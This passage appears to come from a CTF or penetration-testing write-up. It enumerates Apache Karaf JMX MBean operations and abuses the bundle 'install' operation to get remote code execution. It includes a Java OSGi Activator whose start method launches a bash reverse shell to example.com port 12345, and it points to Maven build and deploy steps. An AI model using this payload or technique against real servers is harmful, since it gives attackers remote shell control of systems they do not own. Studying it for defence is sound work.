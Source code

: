 ```
name=root,type=instance
['stopInstance', 'changeRmiRegistryPort', 'createInstance', 'cloneInstance', 'destroyInstance', 'changeSshPort', 'changeSshHost', 'renameInstance', 'startInstance', 'changeJavaOpts', 'changeRmiServerPort']
area=jmx,name=root,type=security
['canInvoke']
name=root,type=system
['rebootCleanAll', 'reboot', 'halt', 'getProperty', 'setProperty', 'getProperties', 'rebootCleanCache']
name=root,type=kar
['uninstall', 'install', 'create']
name=root,type=package
['getImports', 'getExports']
name=root,type=diagnostic
['createDump']
name=root,type=scr
['componentState', 'activateComponent', 'isComponentActive', 'listComponents', 'deactivateComponent']
```

Bingo! There are lots of operation named `install`. We can probably exploit those API to deploy our malicious application. According to the [documents](http://karaf.apache.org/manual/latest/#_jmx_karmbean), we can deploy either a KAR or a bundle to the server to RCE.  [Here] is a good article explaining how to deploy a KAR/bundle. The author also provives [a hello-world bundle on Github](https://github.com/moghaddam/developmentor/blob/master/helloworld/target/helloworld-1.0.0.jar).

Based on the hello-world bundle, we modified it to create a reverse webshell:

```javas
//Activator.java
package com.blogspot.developmentor;

import org.osgi.framework.BundleActivator;
import org.osgi.framework.BundleContext;

public class Activator implements BundleActivator {

    public void start(BundleContext context) {
      try {
        Runtime.getRuntime().exec(new String[]{"bash", "-c", "bash -i >& /dev/tcp/example.com/12345 0>&1"}).waitFor();
      } catch (java.io.IOException e) {
      } catch(java.lang.InterruptedException ex) {
      }
    }

    public void stop(BundleContext context) {
    }

}
```

Then run `mvn clean compile package` and the following script to deploy the bundle automatically! Just set the secoond parameter to `true`.
